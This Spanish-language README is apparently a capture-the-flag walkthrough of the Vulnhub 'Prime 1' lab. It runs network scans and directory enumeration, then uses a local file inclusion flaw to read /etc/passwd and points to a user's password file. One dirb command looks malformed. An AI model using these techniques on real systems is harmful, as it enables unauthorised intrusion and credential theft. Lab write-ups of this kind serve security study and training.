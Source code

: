 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=200&height=70&lines=Prime_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/prime-1,358/

</br>

> Esta máquina está diseñada para aquellos que intentan prepararse para el examen OSCP. 

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/173474426-a673d820-8b68-40c9-89f6-4686e436978f.png"></h1>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![2](https://user-images.githubusercontent.com/75953873/173475187-1682b0c5-0c7e-410c-9455-98e8cd6c5e81.png)

IP host: `192.168.25.133`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv 192.168.25.133
```
![3](https://user-images.githubusercontent.com/75953873/173475468-fee78430-41f0-4a6f-a18d-5934250a6aac.png)

Puertos abiertos: [22,80]

- *Paso 3:* Escaneo agresivo para detectar servicios corriendo.
```
nmap -A 192.168.25.133
```
![4](https://user-images.githubusercontent.com/75953873/173476100-ae65ae3d-4a36-466c-aa98-fbc4fee2c738.png)

Servidor corriendo: **HTTP Apache**

- *Paso 4:* Recorrido de ruta: enumerar archivos .txt con Dirb.

URL: `http://192.168.25.133`

![5](https://user-images.githubusercontent.com/75953873/173476731-79f7a93a-f659-4563-9cfd-d1f271f16a90.png)

```
dirb http://192.168.25.133 -X .txt
```
![6](https://user-images.githubusercontent.com/75953873/173477255-427b51b9-6023-48d8-a0aa-fbb42aa4af16.png)

Archivo secreto: `http://192.168.25.133/secret.txt`

![7](https://user-images.githubusercontent.com/75953873/173477715-6d51f82c-21fe-42c4-854f-fc5f9ca5d17a.png)

Probar los comandos Fuzzing que proporciona el repositorio de Github, el objetivo es encontrar un párametro para navegar dentro de él.

Comando fuzzy: `file`

![8](https://user-images.githubusercontent.com/75953873/173478463-cfd85ea0-4cdc-465c-95a1-79f699dcfd5a.png)

Unir la URL: `http://192.168.25.133/index.php?file=`

![9](https://user-images.githubusercontent.com/75953873/173478799-cd7249ce-8843-499b-917d-c43d22dcc4f4.png)

Archivo proporcionado: `location.txt`

URL completa: `http://192.168.25.133/index.php?file=location.txt`

![10](https://user-images.githubusercontent.com/75953873/173478934-d1f7d4ab-2b65-4666-87f9-346ebcae02b7.png)

El archivo `location.txt` nos dio una pista para usar `secrettire360` como parámetro en otra página php aprovechando la vulnerabilidad de inclusión de archivos locales (LFI).

Localizar archivos `.php` con Dirb:
```
dirb http://192.168.25.133 -X .php
```
![11](https://user-images.githubusercontent.com/75953873/173479528-29899116-a8f6-4a6a-b435-1ebca5e8c50d.png)

Pista: `secrettire360`

URL completa: `http://192.168.25.133/image.php?secrettier360`

```
dirb http://192.168.25.133 -X .php `http://192.168.25.133/image.php?secrettier360` /usr/share/dirb/wordlists/extensions_common.txt
```
![12](https://user-images.githubusercontent.com/75953873/173480064-2e0d0446-d55b-4bbc-97d1-1e7b4fa919f1.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/etc/passwd`

El usuario `Saket` menciona que dentro de su directorio `/home/saket/` se encuentra el archivo `password.txt`.

![13](https://user-images.githubusercontent.com/75953873/173481350-5277704e-627a-4568-9ded-bf3f91e9a38f.png)
